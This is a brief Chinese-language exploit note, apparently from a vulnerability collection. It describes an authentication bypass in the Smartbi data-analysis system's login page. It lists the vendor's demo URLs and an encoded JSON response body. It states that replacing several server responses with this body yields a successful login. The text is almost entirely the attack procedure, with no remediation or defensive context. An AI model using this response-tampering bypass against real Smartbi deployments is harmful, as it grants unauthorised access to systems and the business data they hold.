

# Smartbi大数据分析系统登录页面存在逻辑缺陷漏洞

#  官方DEMO  
http://demo.smartbi.com.cn/smartbi/vision/index.jsp   

http://demo.smartbi.com.cn/smartbi/vision/config.jsp  

将响应包报文替换如下  
{"H~CxOm~":q,"H~*2KC":CH2~,"m2HECcO'":1}  

依次替换几个报文后可成功登录系统 
 